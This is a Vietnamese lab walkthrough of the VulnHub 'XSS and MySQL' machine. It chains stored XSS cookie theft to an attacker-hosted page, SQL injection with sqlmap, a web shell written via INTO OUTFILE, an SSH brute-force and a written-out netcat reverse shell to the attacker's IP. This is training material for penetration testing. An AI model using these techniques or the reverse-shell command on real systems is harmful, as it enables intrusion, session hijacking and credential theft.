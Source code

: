 ## XSS and MySQL 

### Discover
![image](https://hackmd.io/_uploads/HJI5oJI4Jx.png)
Link truy cập và tải [lab](https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/) ! 

Khởi chạy lab - vuln machine trên VMware. Vì Lab chạy trên cùng interface mạng với máy Kali (ở đây dùng làm máy tấn công), sử dụng netdiscover để tìm địa chỉ IP của Lab: 
![image](https://hackmd.io/_uploads/SJ4upJLE1x.png)

Địa chỉ IP của máy Kali: 192.168.68.136/24
![image](https://hackmd.io/_uploads/HJE9ak8N1e.png)

Sử dụng netdiscover, tùy chọn -r (range) chỉ định phạm vi giải địa chỉ tương ứng với máy Kali: 
![image](https://hackmd.io/_uploads/H1fT6yUNkx.png)
Kết quả ở trên, ta suy ra địa chỉ của máy Lab là 192.168.68.162, các địa chỉ còn lại mặc định là địa chỉ Gateway, máy thật, máy kali. 
### Enum
Tiếp theo, mình do quét các cổng đang mở của máy lab: 
![image](https://hackmd.io/_uploads/rJRgBB8Ekl.png)
Kết quả có 2 port đang mở. Việc chỉ định -p-,  -T4 để scan trên tất cả các port và tăng tốc độ scan. Chạy thêm 1 lệnh nmap để scan chi tiết trên các cổng đang mở này: 
![image](https://hackmd.io/_uploads/HJSwUSI4Jx.png)
Tùy chọn -sC để chạy script scan mặc định, -sV để scan version , kết quả port 22 chạy ssh OpenSSH 5.5p1, port 80 chạy web Apache httpd 2.2.16. 

Mở browser và truy cập 192.168.68.162, port 80 ,ta được giao diện web như sau: 
![image](https://hackmd.io/_uploads/S1DeuHUNkx.png)
Đây là 1 trang blog đơn giản, dạo qua web một vòng, truy cập các post thì chỉ có tính năng bình luận, truy cập Admin thì sẽ hiện ra form login đăng nhập: 
![image](https://hackmd.io/_uploads/HkZw_H8VJl.png)

Tạm thời bỏ qua, trước khi test thủ công, ta chạy gobuster để dò tìm các folder, file ẩn trên web: 
![image](https://hackmd.io/_uploads/ryItqB84kg.png)
![image](https://hackmd.io/_uploads/ryRi5rINyg.png)
Truy cập vào các đường dẫn trên không thu được gì thú vị và có thể khai thác. Sử dụng extension Wappalyzer để xem thông tin trang web: 
![image](https://hackmd.io/_uploads/SkGdjS8V1g.png)
Ta biết được trang web được viết bằng php, chạy trên máy chủ Apache 2.2.16, hệ điều hành,... 

Quay lại trang blog, trang có tính năng commment, ta có thể test ngay đến các lổ hổng XSS, SSTI,... Thử ngay với payload test XSS do gợi ý từ tên lab có XSS :> :
![image](https://hackmd.io/_uploads/rk4aur84yl.png)

Kết quả, dính XSS stored ở tính năng comment: 
![image](https://hackmd.io/_uploads/SJvi3HIN1e.png)

Lỗi XSS này, ta nghĩ tới ngay việc khai thác đánh cắp cookie người dùng. Để khai thác XSS này, giả sử admin hoặc người dùng truy cập trang web xem comment, khi đó XSS sẽ điều hướng đến trang C2 do ta kiểm soát. Trước tiên, ta tạo máy C2 để nhận cookie từ người dùng: 
### Exploit
Ta tạo file index.php: 
![image](https://hackmd.io/_uploads/Sy38MUL4Je.png)
Sau đó host trên local sử dụng php option -S: 
![image](https://hackmd.io/_uploads/ryAhfLLVJl.png)

Quay lại trang blog, tạo payload khai thác như sau: 
![image](https://hackmd.io/_uploads/S19Z4ILVke.png)
Submit comment chứa payload, sau đó, khi admin truy cập đọc comment, ta lấy được cookie như sau: 
![image](https://hackmd.io/_uploads/SJQ8DI84ke.png)
Update lại cookie của admin, ta truy cập được vào trang admin trên blog: 
![image](https://hackmd.io/_uploads/ryscvUUVye.png)

Mình đã thử qua các chức năng mới của admin, scan Burpsuite tới chức năng edit post, có vẻ bị dính SQL Injection: 
![image](https://hackmd.io/_uploads/SyV4_twEJx.png)

Truy cập trang edit một post bất kỳ, thấy có tham số id trên url, mình đã thử inject ký tự ', và kết quả có thông báo lỗi hàm mysql_fetch_assoc(), lỗi truy vấn SQL:
![image](https://hackmd.io/_uploads/rJvrYFvEkx.png)
Sử dụng Sqlmap để scan url với tham số id: 
![image](https://hackmd.io/_uploads/rJf0aKwVkx.png)
Thực hiện dump dữ liệu với option -dump, ngoài các table chứa dữ liệu post, ta còn thu được thông tin đăng nhập của user admin với pass được crack là :"P4ssw0rd". 
![image](https://hackmd.io/_uploads/rJhxW9vNJe.png)
![image](https://hackmd.io/_uploads/B1i7Z9wVye.png)
![image](https://hackmd.io/_uploads/SybUZcDVkx.png)
Truy cập login , login thành công với user admin với password bên trên. 
### RCE to root
Sau khi tìm hiểu khai thác sql injection, mình thấy lỗi này có thể khai thác để ghi file vào hệ thống. Mình search trên google nói về [sql-to-shell](https://pentesterlab.com/exercises/from-sqli-to-shell),  tận dụng cách trong bài viết này, mình upload shell sử dụng toán tử UNION và hàm "into outfile" có trong Mysql để ghi file.
![image](https://hackmd.io/_uploads/SyL8nRP4yl.png)

Dựa vào kết quả các thư mục tìm được từ công cụ Gobuster, sau nhiều lần thử, mình thành công write được vào thư mục /css mà không bị hạn chế về quyền:
![image](https://hackmd.io/_uploads/Hyp0P3w4Jx.png)
Truy cập /css để kiểm tra: 
![image](https://hackmd.io/_uploads/HJ1hO2DNyg.png)
Kết quả , file được up thành công, test thử vài truy vấn đơn giản như ls,whoami để kiểm tra RCE thành công:
![image](https://hackmd.io/_uploads/HkAgF2wNke.png)
![image](https://hackmd.io/_uploads/rycQt3P4kg.png)
Sau khi thử vài payload trên revshell, ta thành công với đoạn lệnh sau: `nc -c sh 192.168.68.136 4444`
![image](https://hackmd.io/_uploads/ry_xHaPVyl.png)
![image](https://hackmd.io/_uploads/B1yfSavEkx.png)
Tuy nhiên, người dùng www-data này không có quyền root. Thử đọc file /etc/passwd:
![image](https://hackmd.io/_uploads/HkSHyAPEyg.png)
Thấy ngoài root, ta còn thấy người dùng user, brute-force "user" với msf sử dụng ssh_login module:
![image](https://hackmd.io/_uploads/rkEw40PEJx.png)
Đăng nhập với user:pass vừa tìm được:
![image](https://hackmd.io/_uploads/rJ9NIRwVyl.png)
Vậy là mình get root thành công hệ thống!

